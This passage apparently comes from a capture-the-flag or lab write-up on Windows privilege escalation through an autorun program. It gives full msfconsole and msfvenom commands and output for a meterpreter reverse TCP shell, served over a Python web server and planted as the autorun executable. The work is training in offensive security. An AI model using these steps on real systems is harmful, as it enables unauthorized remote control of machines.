 **Exploitation**

Let's fire up `msfconsole` and create a handler for our reverse shell:

~~~
$ msfconsole -q
msf5 > use exploit/multi/handler 
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 10.9.**.**
LHOST => 10.9.**.**
msf5 exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.9.**.**:4444 
~~~

Now, we'll use `msfvenom` to build our reverse shell.

~~~
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.9.**.** LPORT=4444 -f exe -o program.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 341 bytes
Final size of exe file: 73802 bytes
Saved as: program.exe
~~~

There are many ways to transfer the file to the Windows machine. I like to use the Invoke-WebRequest powershell command, but it is not available on this Windows machine. That said, we have a RDP connection, so let's start a web server on our own machine (`python -m http.server`) and download it from the Windows machine (`http://10.9.**.**:8000/program.exe`) directly as `c:\Program Files\Autorun Program\program.exe`.

Now, log off from the Windows machine and log in again, as `user`. You will probably have this security warning, ignore it and accept to run the program.

!["program-security-warning.png"](files/program-security-warning.png).
